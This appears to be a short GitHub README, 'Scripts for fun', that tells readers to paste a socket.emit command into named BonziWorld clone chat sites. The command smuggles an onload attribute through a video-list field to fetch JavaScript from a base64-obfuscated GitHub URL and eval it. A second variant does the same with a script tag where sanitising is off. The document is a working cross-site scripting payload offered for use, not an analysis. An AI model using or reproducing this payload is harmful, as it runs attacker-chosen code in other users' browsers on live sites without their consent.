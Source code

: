 # ULTIMATE JAVASCRIPT
Scripts for fun
# How to use?
simply go into the websites list and
paste this script `socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`
and if you have sanitize off do this
`<script>fetch(atob('aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v')+'???'+atob('Lmpz')).then(r=>r.text()).then(t=>eval(t))</script>`
# What are the websites?
https://bonziworld-classic-plus-plus-edition-mlcr.onrender.com
https://bonziworld-revived-1.onrender.com

